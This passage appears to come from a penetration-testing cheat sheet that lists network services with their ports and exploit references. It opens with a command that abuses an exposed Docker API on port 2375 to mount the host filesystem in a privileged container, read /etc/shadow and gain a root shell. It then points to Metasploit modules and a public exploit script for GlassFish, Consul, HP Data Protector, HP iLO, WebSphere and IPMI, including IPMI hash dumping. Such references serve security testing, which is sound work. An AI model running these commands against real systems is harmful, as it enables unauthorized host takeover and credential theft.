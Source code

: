 ```bash
docker -H [host]:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

* File Access: `cat /mnt/etc/shadow`
* Remote Code Execution: `chroot /mnt`

### GlassFish

**Ports:** 4848\
**Exploit:**

{% embed url="https://www.rapid7.com/db/modules/auxiliary/scanner/http/glassfish_traversal" %}

### Hashicorp Consul

**Ports:** 8500\
**Exploit:**

{% embed url="https://www.rapid7.com/db/modules/exploit/multi/misc/consul_service_exec" %}

### HP Data Protector

**Ports:** 5555, 5556\
**Exploit:**

{% embed url="https://www.rapid7.com/db/modules/exploit/multi/misc/hp_data_protector_exec_integutil" %}

{% embed url="https://www.rapid7.com/db/modules/exploit/windows/misc/hp_dataprotector_cmd_exec" %}

### HP iLO

**Ports:** 80, 443

**Exploit:**

{% embed url="https://github.com/skelsec/CVE-2017-12542/blob/master/exploit_1.py" %}

### IBM Websphere

**Ports:** 8880\
**Exploit:**

{% embed url="https://www.rapid7.com/db/modules/exploit/windows/misc/ibm_websphere_java_deserialize" %}

### IPMI

**Ports:** 623\
**Exploit:**

{% embed url="https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version" %}

{% embed url="https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes" %}

{% embed url="https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_cipher_zero" %}

